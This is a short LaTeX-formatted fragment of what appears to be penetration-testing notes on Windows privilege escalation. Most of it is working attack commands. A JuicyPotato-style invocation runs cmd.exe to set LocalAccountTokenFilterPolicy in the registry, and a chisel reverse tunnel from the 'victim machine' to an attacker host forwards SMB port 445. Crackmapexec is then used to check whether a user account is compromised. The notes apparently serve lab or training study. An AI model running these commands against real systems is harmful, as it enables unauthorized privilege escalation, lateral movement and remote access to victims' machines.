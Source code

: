 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\begin{enumerate}
\begin{itemize}
\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{JP.}\FunctionTok{exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.}\FunctionTok{exe}\NormalTok{ -a }\StringTok{"/c reg add HKLM\textbackslash{}Software\textbackslash{}Microsoft\textbackslash{}Windows\textbackslash{}CurrentVersion\textbackslash{}Policies\textbackslash{}System }
\NormalTok{                                                            /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f}\StringTok{"}
\end{Highlighting}
\end{Shaded}
  \item
    Check with chisel and crackmapexec if user looping is now Pownd

    \begin{itemize}
    \item
      download chisel on attacker machine and on victim machine
    \item
      run chisel on attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./chisel}\NormalTok{ server --reverse --port 1234}
\end{Highlighting}
\end{Shaded}
    \item
      run chisel on windows victim machine

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{chisel.}\FunctionTok{exe}\NormalTok{ client 10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{:1234 R:445:127.}\FunctionTok{0}\NormalTok{.}\FunctionTok{0}\NormalTok{.}\FunctionTok{1}\NormalTok{:445}
\end{Highlighting}
\end{Shaded}
    \item
      check if revert port forwarding works

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 127.0.0.1}
\end{Highlighting}
\end{Shaded}
    \item
      check if looping is powned


\end{itemize}
\end{itemize}
\end{enumerate}
\end{document}
